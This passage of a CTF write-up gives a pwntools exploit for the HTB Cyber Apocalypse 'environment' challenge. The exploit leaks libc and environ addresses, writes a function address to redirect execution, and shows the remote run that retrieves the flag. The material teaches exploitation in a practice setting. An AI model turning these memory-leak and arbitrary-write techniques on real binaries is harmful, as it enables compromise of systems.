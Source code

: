 ```python
	p.sendlineafter('>','1')
	p.sendlineafter('>','n')

data=p.recvuntil(']').decode('utf-8').split('[')[-1].split(']')[0] #.strip('\x1b[0m[')
libc_leak_printf=int(data,16)
log.info("printf leak address: " + hex(libc_leak_printf))
libc.address = libc_leak_printf - libc.sym.printf
log.info("libc.address: " + hex(libc.address))

#leak envior address
for _ in range(5):
        p.sendlineafter('>','2')
        p.sendlineafter('>','1')
        p.sendlineafter('>','n')

p.sendlineafter('> ',hex(libc.sym.environ))
p.recv(4) # ANSI color
data = p.recv(6)
environ = u64(data + b'\0\0')
log.info('environ address: ' + str(hex(environ)))


#Write address of hidden_resource to environ-0x120 (calculated using p/x (long)(environ)-(long)$rsp on plant function)
p.sendlineafter('>','1')
p.sendlineafter('>',hex(environ-0x120))
p.sendlineafter('>',hex(binary.sym.hidden_resources))
print(p.recvuntil('}'))
```

Run it:
```asm
┌─[evyatar@parrot]─[/ctf_htb/cyber_apocalypse/pwn/environment]
└──╼ $ python exploit.py REMOTE=1
[*] '/ctf_htb/cyber_apocalypse/pwn/environment/environment'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[+] Opening connection to 138.68.141.182 on port 31076: Done
[*] '/ctf_htb/cyber_apocalypse/pwn/environment/environment/libc.so.6'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[*] printf: 0x7fef03d4df70
[*] libc.address: 0x7fef03ce9000
[*] environ: 0x7fff09518b18
CHTB{u_s4v3d_th3_3nv1r0n_v4r14bl3!}
```

And we get the flag ```CHTB{u_s4v3d_th3_3nv1r0n_v4r14bl3!}```.